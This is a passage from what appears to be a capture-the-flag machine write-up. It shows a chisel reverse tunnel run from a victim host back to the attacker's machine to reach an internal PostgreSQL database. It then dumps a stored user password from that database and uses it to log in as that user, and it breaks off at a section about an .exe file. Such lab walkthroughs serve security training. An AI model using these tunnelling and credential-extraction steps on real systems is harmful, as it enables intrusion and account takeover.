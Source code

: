 ```bash
# on kali
chisel server -p 5555 --reverse
# on victim
./chisel client 10.10.14.13:5555 R:5432:172.19.0.4:5432
```

With this, we can use `psql` on our machine along with the password we found earlier to login.

<figure><img src="../../../.gitbook/assets/image (117) (2).png" alt=""><figcaption></figcaption></figure>

I was able to find a password from this database:

```
profiles=> \d
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | profiles | table | profiles
(1 row)

profiles=> select * from profiles;
 id | username |        password        
----+----------+------------------------
  1 | clave    | c3NoLXN0cjBuZy1wQHNz==
(1 row)
```

Using this password (it isn't base64), we can login as `clave`:

<figure><img src="../../../.gitbook/assets/image (154) (6).png" alt=""><figcaption></figcaption></figure>

### RemoteConnection

Within the user's directory, there was an `.exe` file present:
